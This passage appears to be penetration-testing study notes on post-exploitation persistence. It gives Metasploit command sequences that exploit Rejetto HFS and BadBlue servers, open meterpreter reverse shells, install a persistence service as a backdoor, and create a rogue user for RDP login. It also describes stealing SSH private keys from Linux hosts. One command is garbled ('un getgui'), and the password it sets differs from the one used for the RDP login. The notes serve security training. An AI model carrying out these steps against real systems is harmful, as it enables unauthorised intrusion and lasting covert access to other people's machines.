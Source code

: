 _Note: the persistence technique you use will need to be in accordance with the rules of engagment laid out agreed upon with the client._

```bash
# exploit
msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set rhosts 10.3.17.79
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> run
meterpreter> background
# persist
msf6> use exploit/windows/local/persistence_service
msf6> set session 1
msf6> set lport 4445
msf6> run
# kill
msf6> sessions -K
# backdoor
msf6> use multi/handler
msf6> set lhost eth1
msf6> set lport 4445
msf6> run
meterpreter> getuid  # NT AUTHORITY\SYSTEM
```

#### Create a new user

Create a new user then login with RDP protocol.

```bash
# exploit
msf6> use exploit/windows/http/badblue_passthru
msf6> setg rhosts 10.3.30.156
msf6> run
# create new user john:password_123321
meterpreter> un getgui -e -u john -p pass_123321
```

Once you created the user, connect to the target via RDP.

```bash
kali@kali> xfreerdp /u:john /p:pass_123321 /v:10.3.30.156
```

### Linux persistence

#### SSH keys

* Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
* If SSH is enablied and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
* In most cases Linux server will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
* After gaining access to a Linux system we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

